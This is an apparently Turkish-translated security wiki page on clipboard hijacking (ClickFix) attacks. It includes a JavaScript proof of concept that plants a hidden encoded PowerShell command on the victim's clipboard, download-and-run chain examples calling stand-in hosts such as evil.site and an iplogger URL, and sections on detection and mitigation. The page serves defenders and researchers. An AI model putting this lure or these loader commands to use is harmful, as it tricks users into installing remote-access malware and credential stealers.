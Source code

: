 # Clipboard Hijacking (Pastejacking) Attacks

{{#include ../../banners/hacktricks-training.md}}

> "Kendiniz kopyalamadığınız hiçbir şeyi yapıştırmayın." – eski ama hala geçerli bir tavsiye

## Overview

Clipboard hijacking – ayrıca *pastejacking* olarak da bilinir – kullanıcıların komutları incelemeden kopyalayıp yapıştırma alışkanlığından faydalanır. Kötü niyetli bir web sayfası (veya Electron veya masaüstü uygulaması gibi herhangi bir JavaScript uyumlu bağlam) programatik olarak saldırgan kontrolündeki metni sistem panosuna yerleştirir. Kurbanlar, genellikle dikkatlice hazırlanmış sosyal mühendislik talimatlarıyla, **Win + R** (Çalıştır penceresi), **Win + X** (Hızlı Erişim / PowerShell) tuşlarına basmaları veya bir terminal açıp *panodaki* içeriği yapıştırmaları için teşvik edilir, bu da rastgele komutların hemen yürütülmesine neden olur.

**Hiçbir dosya indirilmediği ve hiçbir ek açılmadığı için**, bu teknik, ekleri, makroları veya doğrudan komut yürütmeyi izleyen çoğu e-posta ve web içeriği güvenlik kontrolünü atlatır. Bu nedenle, saldırı, NetSupport RAT, Latrodectus yükleyici veya Lumma Stealer gibi ticari kötü amaçlı yazılım ailelerini dağıtan phishing kampanyalarında popülerdir.

## JavaScript Proof-of-Concept
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
Eski kampanyalar `document.execCommand('copy')` kullanıyordu, yenileri ise asenkron **Clipboard API** (`navigator.clipboard.writeText`) kullanıyor.

## ClickFix / ClearFake Akışı

1. Kullanıcı bir yazım hatası yapılmış veya ele geçirilmiş bir siteyi ziyaret eder (örneğin `docusign.sa[.]com`)
2. Enjekte edilmiş **ClearFake** JavaScript, sessizce bir Base64 kodlu PowerShell tek satırlık komutunu panoya kaydeden `unsecuredCopyToClipboard()` yardımcı fonksiyonunu çağırır.
3. HTML talimatları kurbanı şunları yapmaya yönlendirir: *“**Win + R** tuşlarına basın, komutu yapıştırın ve sorunu çözmek için Enter'a basın.”*
4. `powershell.exe` çalıştırılır, meşru bir yürütülebilir dosya ile birlikte kötü niyetli bir DLL içeren bir arşiv indirir (klasik DLL yan yükleme).
5. Yükleyici ek aşamaları şifre çözer, shellcode enjekte eder ve kalıcılığı kurar (örneğin, planlanmış görev) – nihayetinde NetSupport RAT / Latrodectus / Lumma Stealer'ı çalıştırır.

### Örnek NetSupport RAT Zinciri
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (meşru Java WebStart) dizininde `msvcp140.dll` arar.
* Kötü niyetli DLL, **GetProcAddress** ile API'leri dinamik olarak çözer, **curl.exe** aracılığıyla iki ikili dosya (`data_3.bin`, `data_4.bin`) indirir, bunları `"https://google.com/"` anahtarını kullanarak şifrelerini çözer, son shellcode'u enjekte eder ve **client32.exe** (NetSupport RAT) dosyasını `C:\ProgramData\SecurityCheck_v1\` dizinine çıkarır.

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. `la.txt` dosyasını **curl.exe** ile indirir
2. **cscript.exe** içinde JScript indiricisini çalıştırır
3. Bir MSI yüklemesi alır → imzalı bir uygulamanın yanına `libcef.dll` bırakır → DLL yan yükleme → shellcode → Latrodectus.

### Lumma Stealer MSHTA aracılığıyla
```
mshta https://iplogger.co/xxxx =+\\xxx
```
**mshta** çağrısı, `PartyContinued.exe`'yi alıp, `Boat.pst`'yi (CAB) çıkartarak, `AutoIt3.exe`'yi `extrac32` ve dosya birleştirmesi ile yeniden yapılandıran ve sonunda tarayıcı kimlik bilgilerini `sumeriavgv.digital`'a dışarı aktaran bir gizli PowerShell betiği başlatır.

## Tespit ve Avlanma

Mavi takımlar, yapıştırma istismarı tespit etmek için pano, işlem oluşturma ve kayıt defteri telemetrisini birleştirebilir:

* Windows Kayıt Defteri: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`, **Win + R** komutlarının bir geçmişini tutar – alışılmadık Base64 / obfuscate edilmiş girişler arayın.
* Güvenlik Olay ID **4688** (İşlem Oluşturma) burada `ParentImage` == `explorer.exe` ve `NewProcessName` { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` } içinde.
* Olay ID **4663**, şüpheli 4688 olayından hemen önce `%LocalAppData%\Microsoft\Windows\WinX\` veya geçici klasörler altında dosya oluşturma için.
* EDR pano sensörleri (varsa) – `Clipboard Write` ile hemen ardından yeni bir PowerShell işlemi arasında ilişki kurun.

## Hafifletmeler

1. Tarayıcı güçlendirme – pano yazma erişimini devre dışı bırakın (`dom.events.asyncClipboard.clipboardItem` vb.) veya kullanıcı jesti gerektirin.
2. Güvenlik farkındalığı – kullanıcılara hassas komutları *yazmayı* veya önce bir metin düzenleyicisine yapıştırmayı öğretin.
3. PowerShell Kısıtlı Dil Modu / İcra Politikası + Uygulama Kontrolü, keyfi tek satırlık komutları engellemek için.
4. Ağ kontrolleri – bilinen yapıştırma istismarı ve kötü amaçlı yazılım C2 alanlarına giden istekleri engelleyin.

## İlgili Hileler

* **Discord Davet İstismarı**, kullanıcıları kötü niyetli bir sunucuya çekmenin ardından genellikle aynı ClickFix yaklaşımını istismar eder:

{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## Referanslar

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}
